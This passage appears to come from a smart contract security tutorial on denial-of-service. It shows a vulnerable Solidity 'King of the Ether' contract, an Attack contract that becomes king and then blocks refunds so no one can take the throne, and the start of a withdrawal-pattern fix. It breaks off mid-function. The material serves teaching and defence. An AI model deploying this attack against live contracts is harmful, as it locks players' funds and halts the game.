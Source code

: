```solidity
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // You can also perform a DOS by consuming all gas using assert.
    // This attack will work even if the calling contract does not check
    // whether the call was successful or not.
    //
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```

## How to prevent DoS Attack?

To prevent this attack, developers can modify the King of the Ether smart contract to utilize a **withdrawal pattern** that enables players to withdraw their winnings instead of having them sent directly from the play function. Here’s an example implementation:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

```